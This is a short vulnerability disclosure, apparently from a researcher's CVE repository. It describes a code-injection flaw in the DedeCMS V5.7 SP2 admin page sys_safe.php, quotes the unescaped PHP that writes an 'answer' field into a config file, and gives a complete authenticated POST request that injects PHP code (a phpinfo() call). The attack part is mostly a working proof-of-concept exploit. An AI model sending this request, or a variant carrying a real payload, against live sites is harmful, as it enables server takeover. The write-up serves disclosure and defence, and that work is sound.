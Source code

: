# Vulnerability Info
## Vulnerability Type
Dedecms background getshell
## Vulnerability Version
V5.7 SP2
## Recurring environment
Windows 10* PHP 5.4.5* Apache 2.4.23
## Author
pang0lin@webray.com.cn inc.

#Vulnerability Description AND recurrence:
The security issue is occured at file /dede/sys_safe.php.
```
    //保存问答数组
    $faqs = array();
    for ($i = 1; $i <= count($question)-1; $i++) 
    {
        $val = trim($question[$i]);
        if($val)
        {
            $faqs[$i]['question'] = str_replace("'","\"",stripslashes($val));
            $faqs[$i]['answer'] = stripslashes(trim($answer[$i]));
        }
    }
    
    //print_r($question);exit();
    $configstr .= "\$safe_faqs = '".serialize($faqs)."';\r\n";
    $configstr = "<"."?php\r\n".$configstr."?".">\r\n";
    
    $fp = fopen($safeconfigfile, "w") or die("写入文件 $safeconfigfile 失败，请检查权限！");
    fwrite($fp, $configstr);
    fclose($fp);
    ShowMsg("修改配置成功！","sys_safe.php");
    exit;
```
It is very strange that the param $faqs[$i]['question'] is escape,but the param $faqs[$i]['answer'] not. Mybe the author forget to do it.
```
$faqs[$i]['question'] = str_replace("'","\"",stripslashes($val));
$faqs[$i]['answer'] = stripslashes(trim($answer[$i]));
```
How to use it? First, we need to login in and request it like blow.
```
POST /dede/sys_safe.php HTTP/1.1
Host: test.com
Content-Length: 903
Cache-Control: max-age=0
Origin: http://test.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://test.com/uploads/dede/sys_safe.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=b0skm3otr4mnf5757cqf36dri6; _csrf_name_ee43b998=f32d4d51d1e76e63fab9b13ba098da00; _csrf_name_ee43b998__ckMd5=742220487726259e; DedeUserID=1; DedeUserID__ckMd5=28220f93251d463f; DedeLoginTime=1577369105; DedeLoginTime__ckMd5=72b229209e37a095
Connection: close

dopost=save&gdopen%5B%5D=1&gdopen%5B%5D=2&gdopen%5B%5D=3&gdopen%5B%5D=4&gdopen%5B%5D=5&gdopen%5B%5D=6&gdopen%5B%5D=7&codetype=3&gdtype=1&gdstyle%5B%5D=3&gd_wwidth=68&gd_wheight=24&codelen=4&question%5B%5D=&answer%5B%5D=&question%5B%5D=%E6%82%A8%E6%9C%80%E5%96%9C%E6%AC%A2%E7%9A%84%E7%BD%91%E5%BB%BA%E7%A8%8B%E5%BA%8F%E6%98%AF%E4%BB%80%E4%B9%88%3F&answer%5B%5D=DedeCMS';phpinfo();//aasssss&question%5B%5D=1%2B11%3D%3F&answer%5B%5D=12&question%5B%5D=%E4%B8%AD%E5%9B%BD%E5%93%AA%E9%A1%B9%E4%BD%93%E8%82%B2%E8%BF%90%E5%8A%A8%E6%9C%80%E8%AE%A9%E4%BA%BA%E5%90%AC%E7%9D%80%E4%BC%A4%E5%BF%83%2C%E7%9C%8B%E7%9D%80%E6%8F%AA%E5%BF%83%3F&answer%5B%5D=%E8%B6%B3%E7%90%83&question%5B%5D=%3Cimg+src%3D%22%2Fimages%2Fdede.gif%22%2F%3E&answer%5B%5D=%E7%BB%87%E6%A2%A6%E5%86%85%E5%AE%B9%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&question%5B%5D=&answer%5B%5D=&gdfaq_reg=0&gdfaq_send=0&gdfaq_msg=1&imageField.x=43&imageField.y=13
```
And Then wen can see phpinfo page anywhere.
![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/dedecms_background_rce.png "Dedecms background getshell")
